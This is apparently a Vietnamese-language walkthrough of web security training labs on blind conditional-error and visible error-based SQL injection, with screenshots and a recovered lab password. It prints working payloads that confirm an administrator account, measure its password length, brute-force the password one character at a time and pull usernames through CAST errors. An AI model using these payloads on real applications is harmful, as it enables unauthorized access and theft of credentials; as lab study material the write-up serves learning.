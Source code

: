 ![image-51](https://gist.github.com/user-attachments/assets/5d934a22-e1f7-481c-b859-2edec9efe67a)

Kiểm tra xem user admin có tồn tại hay không

**Tại sao lại if clause lại phải trả ra lỗi?** bởi vì bài này ta dựa vào errors của web để biết được một câu query có đúng hay không.

Tiếp theo sẽ tiếp tục kiểm tra độ dài của pass

Payload:`'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

![image-52](https://gist.github.com/user-attachments/assets/e52e80e4-738a-4776-a9cb-bd574223cd3a)


Độ dài pass vẫn là 20 như bài trước 

Tiếp theo lại bruteforce pass 

Payload:`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

![image-53](https://gist.github.com/user-attachments/assets/9f1a7e52-6ae8-48d8-a36d-9e42a58316a2)

Chữ cái đầu tiên là **x** tiếp tục bruteforce cho đủ

![image-54](https://gist.github.com/user-attachments/assets/5d88db70-12f5-4546-9abc-cc8f5f92729d)

![image-55](https://gist.github.com/user-attachments/assets/39b7293c-a529-48d2-a3cc-04805ba04bcb)

Password là 20 kí tự này: **xdnuq2j4hvstdtwhv6z6**

## Lab: Visible error-based SQL injection

![image-57](https://gist.github.com/user-attachments/assets/6eb1e909-084d-40c1-97dc-40f54077a0d6)

Ở lab này eror sẽ được throw thẳng ra từ web, nếu câu query sai

![image-56](https://gist.github.com/user-attachments/assets/8897b9c7-a111-4042-8b44-4322c372de4e)

Ta sẽ dùng **CAST** trong mysql để check error - CAST sẽ đổi giá trị trả về thành kiểu dữ liệu bất kì, ý tưởng là sẽ dùng cast để nó throw error ra khi kiểu dữ liệu không phù hợp

Payload:`' AND CAST((SELECT 1) AS int)--`

![image-58](https://gist.github.com/user-attachments/assets/fca339d1-0a19-4df2-811d-c31bdc284b7b)

Mình sẽ thử thêm 1 vào để nhầm lẫn input luôn là boolean

Payload:`' AND 1=CAST((SELECT 1) AS int)--`

Tiếp theo sẽ tìm user trong bảng users

Payload:`' AND 1=CAST((SELECT username from users) AS int)--`

Khi mình thử payload này thì thấy rằng nó bị lỗi độ dài
